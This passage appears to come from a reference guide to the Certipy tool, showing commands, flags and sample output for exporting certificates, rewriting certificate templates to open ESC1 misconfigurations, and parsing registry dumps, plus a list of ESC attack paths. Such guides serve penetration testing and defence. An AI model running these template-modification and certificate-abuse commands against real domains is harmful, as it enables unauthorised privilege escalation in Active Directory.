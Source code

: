 **Example Output**:
```
[*] Exported to admin.pem
```

**Use Case**: Prepares certificates for use with other tools.

### 10. Managing Templates (Template)
**Purpose**: Modify certificate templates for exploitation.

**Command**:
```bash
certipy-ad template -u 'admin@example.local' -p 'P@ssw0rd' -dc-ip 192.168.1.100 -template UserTemplate -save-old -configuration new_template.json
```
**Flag Explanations**:
- `-u 'admin@example.local'`: Username for authentication.
- `-p 'P@ssw0rd'`: Password for the user.
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-template UserTemplate`: Specifies the target template to modify.
- `-save-old`: Saves the current template configuration before modification.
- `-configuration new_template.json`: Applies a new configuration from the specified JSON file.

**Example Output**:
```
[*] Saved old template configuration: UserTemplate_old.json
[*] Applied new configuration from new_template.json
```

**Use Case**: Enables template misconfigurations for attacks like ESC1.

### 11. Offline Enumeration (Parse)
**Purpose**: Analyze AD CS data from offline registry dumps.

**Command**:
```bash
certipy-ad parse -registry registry_dump.reg -output parsed_data
```
**Flag Explanations**:
- `-registry registry_dump.reg`: Specifies the registry file to parse.
- `-output parsed_data`: Defines the prefix for output files (e.g., `parsed_data.txt`).

**Example Output**:
```
[*] Parsed registry data
[*] Found CA: CA01-CA
[*] Templates: UserTemplate, MachineTemplate
```

**Use Case**: Analyzes captured registry data without live access.

## ESC Attack Paths
Certipy supports all ESC1–ESC16 vulnerabilities (see SpecterOps whitepaper: https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf). Key examples:

- **ESC1**: Arbitrary SANs in templates (see `req` command).
- **ESC8**: NTLM relay to Web Enrollment (see `relay` command).
- **ESC9/ESC10**: Shadow credentials (see `shadow` command).
- **ESC14**: Weak explicit certificate mappings.
